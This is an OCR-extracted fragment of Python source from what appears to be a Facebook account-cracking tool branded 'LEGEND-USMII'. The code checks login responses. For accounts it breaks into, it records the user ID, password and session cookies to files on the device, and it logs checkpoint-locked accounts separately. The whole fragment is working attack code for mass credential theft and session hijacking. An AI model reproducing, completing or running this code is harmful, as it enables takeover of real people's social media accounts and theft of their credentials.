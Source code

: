                                 except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [LEGEND-USMII-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        #print("\r\r\033[1;33m Cookie: "+coki)
                                        open('/sdcard/usmii-COKIE.txt','a').write(str(uid)+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/USMII-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                    #    print('\r\r\x1b[1;31m [USMII-CP] '+str(uid)+' | '+pas+'\033[1;97m')
                                        open('/sdcard/USMII-rnd-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass


#try:
#    
#        approval()
#except requests.exceptions.ConnectionError:
#        print('\n No internet connection ...')
#        exit()
menu()
#https://pasteit.free.nf/paste/fRWfQUer
